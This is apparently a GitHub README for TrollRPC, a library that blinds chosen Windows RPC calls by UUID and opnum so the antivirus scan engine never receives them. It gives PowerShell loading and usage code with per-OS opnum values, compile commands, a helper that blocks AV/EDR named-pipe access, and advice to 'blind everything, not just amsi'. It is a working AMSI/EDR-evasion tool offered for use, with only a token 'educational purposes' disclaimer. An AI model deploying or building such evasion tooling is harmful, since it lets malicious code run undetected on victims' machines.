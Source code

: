 ## UPDATES
```diff
! UPDATE 09/07/2025
! For windows 11, a working $Opnum_break is 0x00
! How did i obtain this value? used windbg and attached to powershell with the following breakpoint bp rpcrt4!NdrClientCall3 "r rdx; g"
```
```diff
! UPDATE 11/06/2025
! Added TrollPipe.cs to block CreateFileW to Files or Named Pipes because some AV/EDR use that instead of RPC
! [TrollPipe]::DisappearFileorPipe("<pipe or file name>")
```

# TrollRPC
So what is TrollRPC? Its a library to blind RPC calls based on UUID and OPNUM
![Image](https://github.com/user-attachments/assets/e0fb9e17-def8-4627-847f-7bc60449115a)
<br/> 
https://github.com/andreisss/Ghosting-AMSI released a amsi bypass by breaking NdrClientCall3 which means every subsequent RPC call (eg. some name resolution uses RPC thats why web requests to github fail) breaks which kind of makes the technique obsolete. This particular dll will only break the specific RPC call to the AV scan engine, allowing all other RPC calls through. This means you can bypass amsi for **both powershell/clr** and then continue running commands that require RPC (everything lol). 

## C#
```
[System.Reflection.Assembly]::LoadFile("C:\TrollRPC.dll") 
$UUID = "c503f532-443a-4c69-8300-ccd1fbdb3839"             # The UUID you are targetting
$Opnum = 0x5E                                              # The opnum you are targetting

#WINDOWS 10 VALUE 
$Opnum_break = 0x1F4                                       # Modify the opnum to an invalid value

#WINDOWS 11 VALUE 
$Opnum_break = 0x00                                        # Modify the opnum to an invalid value   
            
[TrollRPC]::Blind($UUID, $Opnum, $Opnum_break)
```

## C++
C++ doesnt allow dynamic input of UUID and OPNUM, have to manually tweak the asmstub to put in the OPNUM you want and recompile (easiest way)
```
#Use Visual Studio Command Prompt to compile first, alternatively, you can use the compiled dll
ml64 /c /nologo /Fo AsmStub.obj AsmStub.asm
cl /LD /O2 /MD /DNDEBUG /Zl /GS- /Gy /GF TrollRPC.cpp AsmStub.obj /link kernel32.lib user32.lib msvcrt.lib /OPT:REF /OPT:ICF /DEBUG:NONE /PDB:NONE

Running on powershell -> Right now its hardcoded for a specific AV engine ;)
Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string lpFileName);
"@ -Namespace Win32 -Name NativeMethods

[Win32.NativeMethods]::LoadLibrary("C:\TrollRPC.dll")
```

## Disclaimer
Should only be used for educational purposes!

## Upgrades
- Be creative, blind everything, not just amsi
- opsec not taken into consideration, its just functional








